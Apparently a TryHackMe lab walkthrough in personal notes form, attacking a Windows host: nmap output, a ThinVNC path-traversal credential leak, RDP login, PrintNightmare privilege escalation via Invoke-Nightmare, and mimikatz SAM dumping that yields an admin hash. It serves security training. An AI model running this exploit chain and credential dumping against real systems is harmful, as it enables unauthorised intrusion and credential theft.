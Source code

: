 
---
#### Nmap

```
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-12-25T05:01:36+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=GAIA
| Not valid before: 2023-12-24T04:31:41
|_Not valid after:  2024-06-24T04:31:41
8080/tcp open  http-proxy
| http-auth: 
| HTTP/1.1 401 Access Denied\x0D
|_  Digest opaque=FHb3WOIfdS8CXuoR869aVL62VVwWh1SKLf qop=auth realm=ThinVNC nonce=8M5ls6Yc5kBI40wCphzmQA==
|_http-title: 401 Access Denied
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Type: text/html
|     Content-Length: 177
|     Connection: Keep-Alive
|     <HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL nice%20ports%2C/Tri%6Eity.txt%2ebak was not found on this server.<P></BODY></HTML>
|   GetRequest: 
|     HTTP/1.1 401 Access Denied
|     Content-Type: text/html
|     Content-Length: 144
|     Connection: Keep-Alive
|     WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="dgDYqKYc5kCI10wCphzmQA==", opaque="luBY9AEKC15G8Ja9loCqkVgMZoNXVI44b2"
|_    <HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL requires authorization.<P></BODY></HTML>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 144.82 seconds
```


---

#### HTTP

- use  the THM room guided section
- identified port 8080 is running `WWW-Authenticate: Digest realm="ThinVNC"` using nmap
- Found an exploit for it - https://www.exploit-db.com/exploits/47519
- In order to exploit this, we had to
    - capture request in burp
    - change path variable to /xyz/../../ThinVnc.ini

![[Pasted image 20231225124752.png]]
    - We get a set of credentails

```
User=Atlas
Password=H0ldUpTheHe@vens
```

- enter machine IP as machine input and we the the desktop on browser using vnc
- used guided room to identify we can continue with rdp

---

#### Foothold

- Logging in with rdp
```
xfreerdp /v:10.10.25.75 /u:Atlas /p:H0ldUpTheHe@vens
```

- guided room suggested to use a different rdp command for file sharing with windows, very usefull
```
xfreerdp /v:10.10.25.75 /u:Atlas /p:H0ldUpTheHe@vens /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp&
```

- cloned this repository in my `/tmp` file  [repository](https://github.com/calebstewart/CVE-2021-1675) 
```
We can import it using:  
`. \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1`

_Make sure to include the dot at the start!_

This uses dot-syntax to import any functions exposed by the script. We are using `\\tsclient\share` to reference the share that we created. 

This allows us to view (and thus import) files that are stored in the /tmp folder of our own attacking machine!
```

- run the exploit
```
PS C:\Users\Atlas> Invoke-Nightmare
```

---

We could take the simple option of right-clicking on PowerShell or cmd.exe and choosing to "Run as Administrator", but that's no fun. Instead, let's use a hacky little PowerShell command to start a new high-integrity command prompt running as our new administrator.

The command is as follows:  
```
Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n
```

---

- we can login into this using above mentioned pass and get admin shell
```
C:\Windows\system32>whoami
gaia\adm1n
```

or
```
  
PS C:\Windows\system32> whoami /groups
```

---

- The classic thing to do here would be to try to dump the password hashes from the machine.`

- The most commonly used tool to dump password hashes on Windows is [Mimikatz](https://github.com/gentilkiwi/mimikatz) by the legendary [Benjamin Delpy](https://twitter.com/gentilkiwi/). The go-to tool for Windows post-exploitation: few tools are more iconic or more well-known than Mimikatz.
--- 

- followed the guided step and run this in target system
```
PS C:\Windows\system32> \\tsclient\share\mimi.exe
```

- Added this to my notes [[1. mimikatz - windows password dump]]

- Running these commands in mimikatz shell

```
privilege::debug

token::elevate

lsadump::sam
```

- we get the administrator's hash `c16444961f67af7eea7e420b65c8c3eb`



